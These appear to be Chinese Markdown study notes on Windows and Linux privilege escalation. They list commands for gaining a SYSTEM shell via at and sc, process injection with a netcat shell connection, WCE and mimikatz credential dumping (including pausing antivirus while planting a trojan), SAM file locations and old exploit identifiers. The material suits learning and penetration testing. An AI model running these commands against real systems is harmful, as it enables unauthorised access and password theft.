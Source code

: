 
# 提权

* 系统账号之间权限隔离
    - 操作系统的安全基础
    - 用户空间
    - 内核空间
  
* 系统账号
    - 用户账号登陆时候获取权限令牌
    - 服务账号无需用户登录已在后台启动服务

* windows用户全权限划分:
    - Users:普通用户组,Users 组是最安全的组，因为分配给该组的默认权限不允许成员修改操作系统的设置或用户资料
    - Administrators:管理员组，默认情况下，Administrators中的用户对计算机/域有不受限制的完全访问权。分配给该组的默认权限允许对整个系统进行完全控制　
    - System:拥有和Administrators一样、甚至比其还高的权限，但是这个组不允许任何用户的加入，在查看用户组的时候，它也不会被显示出来，它就是SYSTEM组。系统和系统级的服务正常运行所需要的权限都是靠它赋予的。

* Linux系统用户权限划分:　
    - Users：普通用户
    - Root：管理员账号

---
* windows

* linux

* 注入进程提权

* 利用漏洞提权

* 利用配置不当提权

## windows

* at实现管理员权限提升为system权限
``` 
at 16:53 /interactive cmd   #xp或者win2003
```

* sc实现把administrator提升为system
``` 
sc create yycmd binPath= "cmd /k start"  type= own type= interact   #注意“=”之后有空格  创建服务
sc start yycmd  # 启动创建的服务
```

* Pinjecter注入进程提权
``` 
pinjecter.exe -p 672 cmd 6666

# 连接
nc 192.168.110.143 666
```


* sysinternal suite
> https:// technet.microsoft.com/sysinternals/bb545027
```shell
    psexec -i -s taskmgr
```

```shell
    at 19:39 /interactive cmd 
    sc Create syscmd bincmd binPath="cmd /K start" type=own type=interact 
    sc start syscmd 
```


## linux 工具

* tmux

## 注入进程提权

* pinjector.exe


## Windows登录认证

* 登录认证过程
1. 用户登录时输入用户名和密码
1. 对输入的密码进行lmhash和nthash加密
1. 对加密的密码与系统中的SAM文件进行比对
1. SAM文件中存放的是用户的用户名和密码的hash值，如果比对成功就可以进行登录，否则登录不成功。

* SAM介绍
> Windows中对用户账户的安全管理使用了安全账号管理器SAM(security account manager)的机制,安全账号管理器对账号的管理是通过安全标识进行的，安全标识在账号创建时就同时创建，一旦账号被删除，安全标识也同时被删除。
  安全标识是唯一的，即使是相同的用户名，在每次创建时获得的安全标识都时完全不同的。因此，一旦某个账号被删除，它的安全标识就不再存在了，即使用相同的用户名重建账号，也会被赋予不同的安全标识，不会保留原来的权限。
  SAM文件是windows的用户账户数据库,所有用户的登录名及口令等相关信息都会保存在这个文件中。SAM文件可以认为类似于unix系统中的passwd文件,不过没有unix的passwd文件那么直观，当我们忘记密码的时候，就可以通过删除SAM文件，快速地进入系统。

* SAM文件位置
> C:\WINDOWS\repair\SAM　　  　
  C:\WINDOWS\system32\config\SAM　　　　
  C:\WINDOWS\repair目录下的SAM，是帐户数据库的备份文件；
  C:\WINDOWS\system32\config目录下的SAM，是系统正在使用的帐户数据库文件。


### 利用WCE进行提权

* 描述
> WCE(Windows Credential Editor)是一款功能非常强大的内网渗透工具，功能是十分强大。
  
* 查看当前登录的用户及加密的密码
``` 
wce-universal.exe -l
```

* 查看当前用户登录的详细信息
``` 
wce-universal.exe -lv
```

* 删除一个指定会话的luid
``` 
wce-universal.exe -d ID号
```

* 刷新会话信息
``` 
wce-universal.exe -e(手动更新)
wce-universal.exe -r(每隔五秒自动更新)
```

* 拼接会话信息
``` 
wce-universal.exe -i ID号 -s 用户信息
```

* 生成指定字符串的lmhash和ntlmhash
``` 
wce-universal.exe -g 明文密码
```

* 查看明文信息
``` 
wce-universal -w
```

* 预防WCE攻击

1. 打开注册表 regedit


2. 删除wdigest


### mimikatz


* 用双冒号查看命令模块和子模块

* privilege::debug 【提权到debug】

* sekurlsa::logonPasswords 【查看登录账号密码信息】

* process【启动进程】

* suspend【挂起进程：可用于植入木马时，暂停防病毒软件】

* resume 【进程恢复】

## 利用漏洞提权

> ms11-080
> kb2592799
> pyinstaller
> pywin32
> ms11-046
> ms11-080
> ms11-046
> ms14-068
> cve-212-0056{    
    /proc/pid/mem   
    kernels >= 2.6.39   
 	http://blog.zx2c4.com/749   
}


## 利用配置不当提权
```shell 
    icacls: icacls c:\windows\*.exe /save asd /T
```



